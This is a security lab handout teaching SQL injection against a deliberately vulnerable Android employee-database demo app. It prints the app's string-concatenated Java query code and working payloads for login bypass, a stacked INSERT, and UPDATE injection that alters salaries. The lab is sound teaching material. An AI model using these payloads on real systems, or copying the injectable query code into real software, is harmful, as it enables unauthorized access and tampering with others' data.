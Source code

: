 # Lab 8: Apps SQL Injection and Defense

SQL injection is basically a technique through which attackers can execute their own malicious SQL statements generally referred as malicious payload. Through the malicious SQL statements, attackers can steal information from the victim database; even worse, they may be able to make changes to the database. 

This lab is adapted from [SEED Labs – SQL Injection Attack Lab](https://seedsecuritylabs.org/Labs_16.04/Web/Web_SQL_Injection/). The major difference between this lab and the one in SEED project is that: SEED lab explores the SQL Injection vulnerability of a remote web server and the attacker does SQL-inject attack via web application front-end input. In our lab, we store all user data of a mobile app in a local database for simplicity, all operations will be demonstrated on an android platform.

## Set-up

We adopt an android app named `SQL Inject Demo` ({download}`sql-inject-demo.apk`, source code availabel [li-xin-yi/sql_inject_demo](https://github.com/li-xin-yi/sql_inject_demo)) as our main environment, it should be installed on an android physical/virtual machine with API >= 17 (Android >= 4.2). We recommand a virtual machine of SDK API 25, which can be easily set-up either via [AVD manager integreated in Android Studio](https://developer.android.com/studio/run/emulator) or [SeedLab virtual machine on Virtual box](https://seedsecuritylabs.org/Labs_16.04/Mobile/SEEDAndroid_VirtualBox.pdf).

## Task 0: Get familiar to the App

This app uses an SQLite database to simulate an employee manage system. After installed on your phone and sign in it first time, it intializes a database `employeeDB.db`, which contains only one table `employee` as:

ID | Name | Password |  SSN | Salary | Nickname | Phone | Email | Address | Birthday
---|---|---|---|---|---|---|---|---|---|
99999 | Admin | admin | 43254314 | 400000 | Ad | (403)220-1191 | admin@hogwarts.edu | Gryffindor House | 1990-03-05
10000 | Alice | alice | 10211002 | 20000 | Ali | (400)210-2112 | alice@hogwarts.edu | Gryffindor House | 2000-09-20
20000 | Boby | boby | 10213352 | 50000 | Bob | (404)789-2313 | boby@hogwarts.edu | Hufflepuff House | 2000-04-20
30000 | Ryan | ryan | 32193525 | 90000|  Ryanny | (210)096-3287 | ryan@hogwarts.edu | Ravenclaw House | 2000-04-10
40000 | Samy | samy | 32111111 | 40000 | Sam | (450)218-8876 | samy@hogwarts.edu | Slytherin House | 2000-01-11 
50000 | Ted | ted | 24343244 | 110000 | Teddy | (208)222-8712 | ted@hogwarts.edu | Azkaban | 2000-11-3

Whenever you want to re-set the database as above, uninstall the app and re-install it.

When you open it, you will first be asked to login in. Just pick one of the users (e.g. username: `Alice`, password `alice`)

![](./log-in-view.png)

In general, if you type incorrect username or password, you cannot access the system:

![](./incorrect-pwd.png)

If you log in the system as a normal user (i.e. not Admin), you will enter your own profile page. Meanwhile, you can edit some fields (Nickname, Password, Address, Phone, and Email) and tap "Update" button to update your profile.

![](./profile.png)

However, as a normal user, you cannot modify your ID, Name, SSN, Salary, Birthday or anys information of other users'.

But if you log in with Admin account, you want enter a manage view and see all employees' personal information in the database:

![](./manage-view.png)

When tapping on any item in this page, you will jump to a profile page similar to the one we previously see, except that you can now modify any field of this user, excluding ID.

![](./root-profile.png)

Even if you exit from the app, all updated data will be stored in the database. Whenever you open the app again, the user data will look like what you last modified.



## Task 1: SQL Injection Attack on SELECT Statement

```{warning}
Suppose that from now, we don't know the passowrd of any user.
```


A typical login page takes user input as arguments of [where cluse](https://www.sqlitetutorial.net/sqlite-where/) to construct an SQL select query, if the database reponses the query with at least one valid result, the user can be authenticated. For example, the code snippet reveals how our app design for the authentication:


```java
public Employee findHandler(String username, String password) {
    String query = "SELECT * FROM " + TABLE_NAME + " WHERE NAME='" + username + "' AND PASSWORD='" + password + "'";
    SQLiteDatabase db = this.getReadableDatabase();
    Employee employee = null;
    Cursor cursor = db.rawQuery(query, null);
    if (cursor != null && cursor.getCount() > 0 && cursor.moveToFirst()) {
        employee = new Employee(Integer.parseInt(cursor.getString(0)),
                cursor.getString(1),
                cursor.getString(2),
                cursor.getString(3),
                cursor.getString(4),
                cursor.getString(5),
                cursor.getString(6),
                cursor.getString(7),
                Integer.parseInt(cursor.getString(8)),
                cursor.getString(9)
        );
        cursor.close();
    }
    db.close();
    return employee;
}
```

As we have no knowledge about any password, we have to construct a payload to avoid the check of 

```
" WHERE NAME='" + username + "' AND PASSWORD='" + password + "'"
```

Assume we want to login as Admin account as it has more privileges

`````{tabbed} Solution 1
- username: `Admin' --`
- password: `xyz` (You can replace it with any non-empty text)

It constructs the SQL query as:

```sql
SELECT * FROM employee WHERE NAME='Admin' -- AND PASSWORD = 'xyz'
```

`--` serves as a start symbol of a in-line comment, so `AND PASSWORD = 'xyz'` will be regarded as just comment and the validity of password will never be checked.

```{warning}
The in-line command symbol `#` in MYSQL cannot be recongized in SQLite, a payload with `#` may lead the app to crush.
```
`````

`````{tabbed} Solution 2
- username: `Admin`
- password: `anytext' OR '1'='1`

It will result in an SQL query as:

```sql
SELECT * FROM employee WHERE NAME='Admin' AND PASSWORD = 'anytext' OR '1'='1'
```

`````

### Task 1.1: Append a new SQL statement

- username: `a' OR 1=1; INSERT INTO employee (NAME, ID) VALUES ('MUR','11451') --`
- password: `anything`

## Task 2: SQL Injection Attack on UPDATE Statement

If an SQL injection vulnerability happens to an UPDATE statement, the damage can be more severe, because attackers can use the vulnerability to modify databases.

```{warning}
Suppose that from now, we only know the password of a normal user. (e.g. Alice)
```

The typical vulnerable update page takes user's inputs and constructs a UPDATE statement. for example, in our app, a profile update request by normal user is handled by the following code snippet:

```java
public void partialUpdateHandler(Employee employee) {
    // invoked by user, update some optional fields
    String UPDATE_SQL_COMMAND = String.format("UPDATE %s SET NICKNAME='%s', EMAIL='%s', ADDRESS='%s', PASSWORD='%s', PHONE='%s' WHERE ID=%s",
            TABLE_NAME,
            employee.getNickname(),
            employee.getEmail(),
            employee.getAddress(),
            employee.getPassword(),
            employee.getPhone(),
            employee.getId());
    SQLiteDatabase db = this.getWritableDatabase();
    db.execSQL(UPDATE_SQL_COMMAND);
}
```

![](alice.png)

### Task 2.1

As we all know that a normal user cannot modify her own salary, however, from the code snippet above, Alice can edit her profile by changing Phone as

```
00000', SALARY = '9990000
```

to send a UPDATE request as:

```sql
UPDATE employee SET NICKNAME=..., EMAIL =..., ADDRESS=..., PASSWORD =..,               PHONE='00000', SALARY='999000'
WHERE ID = (Alice.id)
```

### Task 2.2

Moveover, Alice can continue to change the salary of Boby by set her own Phone as

```
00000', SALARY=0 WHERE NAME='Boby' --
```

Because it constructs:

```sql
UPDATE employee SET NICKNAME=..., EMAIL =..., ADDRESS=..., PASSWORD =..,               PHONE='00000', SALARY=0
WHERE NAME = 'Boby' -- ' WHERE ID = (Alice.id)
```


It all works when we login with Admin to check:

![](final.png)
